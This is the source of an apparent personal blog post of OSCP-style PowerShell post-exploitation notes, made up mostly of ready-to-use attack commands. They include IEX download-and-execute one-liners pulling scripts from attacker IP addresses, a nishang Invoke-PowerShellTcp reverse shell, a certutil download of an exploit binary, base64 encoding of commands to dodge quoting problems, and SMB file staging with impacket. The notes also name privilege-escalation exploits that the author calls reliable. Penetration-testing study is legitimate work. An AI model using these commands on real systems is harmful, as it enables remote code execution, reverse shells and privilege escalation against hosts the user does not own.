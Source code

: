 ```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "Powershell Post exploitation"
subtitle: ""
summary: "Some post exploitation PS notes"
authors: []
tags: []
categories: []
date: 2020-08-28T22:30:35+02:00
lastmod: 2020-08-28T22:30:35+02:00
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: ""
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```



## PowerShell Reverse Shell
 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

Note:
From a 32-bit PowerShell session, to launch a 64-bit PowerShell session, use:
```
C:\Windows\SysNative\WindowsPowerShell\v1.0\PowerShell.exe
```
From a 64-bit PowerShell session, to launch a 32-bit PowerShell session, use:
```
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\PowerShell.exe
```
## PS oneliner nishang
```cp /mnt/hgfs/OSCP/tools/privesc/win/nishang/Shells/Invoke-PowerShellTcp.ps1 nishang.ps1
powershell.exe -NoProfile -ExecutionPolicy unrestricted -Command IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.169:3001/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.169 -Port 3002
IEX(New-Object Net.WebClient).downloadString('http://192.168.19.37/rev.ps1')

````
## from within shell
echo iex(new-object net.webclient).downloadstring('http://192.168.19.37/MS16-135.ps1') | powershell -nop -
IEX(New-Object Net.WebClient).downloadString('http://192.168.19.37/powerup.ps1')

## Other PS commands
```
powershell "IEX(New-Object Net.WebClient).downloadString('http://192.168.19.37/nishang.ps1')
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.19.37/Invoke-PowerShellTcp.ps1'
certutil.exe -urlcache -split -f "http://192.168.19.37/cve.exe" c:\Users\offsec\Documents\2.exe
```
### If " " gives issues -->  
```echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28/sherlock.ps1')" | iconv --to-code UTF-16LE | base64 -w 0

"PowerShell -EncodedCommand base64 string"
```

## Windows exploit suggester
```python windows-exploit-suggester.py --update
Feed it w/ your systeminfo dump python windows-exploit-suggester.py --database 2017-11-15-mssb.xls --systeminfo ../systeminfo.txt
```

## PS enumeration
```
gci -recurse . | select fullname
```
--reliable win exploits
Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
MS16-032) works too but it's a pain in the ass if you don't set the correct architecture from start to end.


## Helpfull resources

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/  
Checklist <https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md>


for i in $(cat text);do cp -r $i /mnt/hgfs/OSCP/testexam/10.11.1.49/exploit/smb ;done;
cd folder
impacket-smbserver exp .
xcopy \\192.168.19.37\exp\smb tester\smb /i /s
xcopy \\192.168.19.37\exp\cve tester\cve /i /s

